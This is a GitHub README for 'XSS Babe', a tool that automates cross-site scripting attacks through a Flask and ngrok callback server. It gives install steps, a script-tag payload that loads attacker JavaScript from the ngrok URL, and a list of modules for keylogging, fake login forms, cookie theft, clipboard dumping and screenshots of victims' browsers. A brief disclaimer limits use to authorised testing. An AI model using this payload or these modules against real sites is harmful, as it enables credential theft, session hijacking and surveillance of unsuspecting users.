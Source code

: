 # XSS BABE

XSS Babe is a tool for exploiting XSS vulnerabilities in real time. 
It automates delivery, tracking, and payload interaction through a live command-line interface. 
*this tool is functional but still a work in progress, should be done with the final touches in the xest few days xx0xx
## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. 
Do not use it against targets without permission. 
You are solely responsible for how you use this software.

---

## Installation

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/XSS-BABE.git
cd XSS-BABE
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install python3 unzip -y
sudo apt install python3-flask python3-pyngrok -y
```

### 3. Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

## Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Copy your auth token from: https://dashboard.ngrok.com/get-started/setup  
3. Add your token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

## Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `sessions/`

---

## Example Payload

Use the Ngrok URL + this payload in the vulnerable input:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

## Modules List

| Module            | Description                                      |
|-------------------|--------------------------------------------------|
| keylogger         | Records keystrokes in real time                  |
| fake_login        | Displays fake login form for credential capture  |
| clipboard         | Dumps contents of the victim’s clipboard         |
| auto_cookie_steal | Extracts document cookies silently               |
| browser_history   | Reads browser history if accessible              |
| download_bait     | Triggers fake file downloads (ZIP/PDF/etc)       |
| fingerprint       | Collects user-agent, screen size, timezone       |
| screenshot        | Captures visual screenshot using HTML2Canvas     |
| recon             | Loads iframe ports and resources for open recon  |
| cross_tab_spy     | Detects and tracks multiple open tabs            |

---

## File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI
├── server.py                   # Flask server for payload delivery
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # XSS loader script
│   └── modules/
│       ├── keylogger.js
│       ├── fake_login.js
│       ├── clipboard.js
│       ├── auto_cookie_steal.js
│       ├── browser_history.js
│       ├── download_bait.js
│       ├── fingerprint.js
│       ├── screenshot.js
│       ├── recon.js
│       └── cross_tab_spy.js
├── utils/
│   └── save_to_txt.py          # Helper to save session info
└── sessions/
    └── [timestamp].txt         # Auto-generated session logs
```

---

## Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
sessions/YYYY-MM-DD-HHMMSS.txt
```

---

## Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Developed by [ekomsSavior](https://github.com/ekomsSavior)
